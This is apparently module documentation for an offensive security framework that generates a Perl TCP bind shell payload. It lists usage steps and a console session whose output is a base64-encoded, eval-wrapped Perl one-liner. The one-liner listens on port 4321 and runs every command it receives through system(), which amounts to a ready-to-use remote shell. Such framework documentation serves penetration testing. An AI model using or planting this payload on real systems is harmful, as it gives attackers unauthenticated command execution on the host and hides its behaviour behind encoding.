 ## Description

Module generates payload that creates interactive tcp bind shell by using perl. 

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/perl/bind_tcp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates perl tcp bind shell payload

## Scenarios

```
rsf > use payloads/perl/bind_tcp
rsf (Perl Bind TCP) > set rport 4321
[+] rport => 4321
rsf (Perl Bind TCP) > run
[*] Running module...
[*] Generating payload
use MIME::Base64;eval(decode_base64('dXNlIElPO2ZvcmVhY2ggbXkgJGtleShrZXlzICVFTlYpe2lmKCRFTlZ7JGtleX09fi8oLiopLyl7JEVOVnska2V5fT0kMTt9fSRjPW5ldyBJTzo6U29ja2V0OjpJTkVUKExvY2FsUG9ydCw0MzIxLFJldXNlLDEsTGlzdGVuKS0+YWNjZXB0OyR+LT5mZG9wZW4oJGMsdyk7U1RESU4tPmZkb3BlbigkYyxyKTt3aGlsZSg8Pil7aWYoJF89fiAvKC4qKS8pe3N5c3RlbSAkMTt9fTs='));
```
